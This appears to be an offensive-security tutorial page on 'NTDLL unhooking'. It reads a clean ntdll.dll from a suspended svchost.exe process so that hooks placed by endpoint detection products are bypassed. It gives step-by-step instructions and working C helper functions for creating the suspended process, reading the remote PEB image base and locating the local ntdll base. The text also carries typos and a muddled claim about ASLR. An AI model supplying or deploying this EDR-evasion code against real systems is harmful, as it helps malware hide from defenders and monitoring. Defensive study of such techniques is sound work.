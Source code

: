 # NTDLL Unhooking - From Suspended Process

## Introduction

An alternate approach to loading NTDLL is to read it from a suspended process. This works because EDR's require a running process to to install their hooks. Here's how it works:

* We create a process in a suspended state. (Contains clean ntdll.dll)
* Get local base address of ntdll.dll. (Imported dlls share the same base address between processes)
* Get remote address of suspended process
* Access remote ntdll via the local base address (their the same between processes)
* Copy .text from remote to local using SizeOfCode found in local ntdll OptionalHeader

Do to ASLR, the virtual address of an imported library will be the same throughout all processes that import it. This is shared below:

<figure><img src="../../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>



## Example

The below screen shot is of svchost.exe (a suspended process we started). We are locating the NTDLL.dll based on the same address we fetched from the local PEB in unhooking.exe

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>



### Required Helper Functions

The following functions are required to create a suspended file, get the base address of the created file,  and to get the address of the local ntdll.dll

```

typedef NTSTATUS (NTAPI* fnNtQueryInformationProcess) (
        HANDLE           ProcessHandle,
        PROCESSINFOCLASS ProcessInformationClass,
        PVOID            ProcessInformation,
        ULONG            ProcessInformationLength,
        PULONG           ReturnLength
        );

BOOL CreateSuspendedProcess(STARTUPINFO *pSi, PPROCESS_INFORMATION pPi) {
    pSi->cb = sizeof(*pSi);
    // Just a POC: Update this with the dynamic filepath fetch for "svchost.exe"
    if (CreateProcessW(L"C:\\Windows\\System32\\svchost.exe", NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, pSi, pPi) == 0) {
        wprintf(L"CreateProcessW Failed %d", GetLastError()) ;
        return FALSE;
    };
    return TRUE;
}

PVOID FetchRemoteBaseAddress(PPROCESS_INFORMATION pPi, PPROCESS_BASIC_INFORMATION pPbi) {

    fnNtQueryInformationProcess NtQueryInformationProcess = (fnNtQueryInformationProcess)GetProcAddress(GetModuleHandle(L"NTDLL.DLL"), "NtQueryInformationProcess");
    // get target image PEB address and pointer to image base
    DWORD dwReturnLength = 0;
    LPVOID imageBase;
    NtQueryInformationProcess(pPi->hProcess, ProcessBasicInformation, pPbi, sizeof(PROCESS_BASIC_INFORMATION), &dwReturnLength);
    DWORD_PTR pebOffset = (DWORD_PTR)pPbi->PebBaseAddress + 0x10;
    ReadProcessMemory(pPi->hProcess, (LPCVOID)pebOffset, &imageBase, sizeof(LPVOID), NULL);
    return imageBase;
}

PVOID FetchLocalNtdllAddress() {
    PPEB pPeb = (PPEB)__readgsqword(0x60);
    PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPeb->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
    return pLdr->DllBase;
}

```
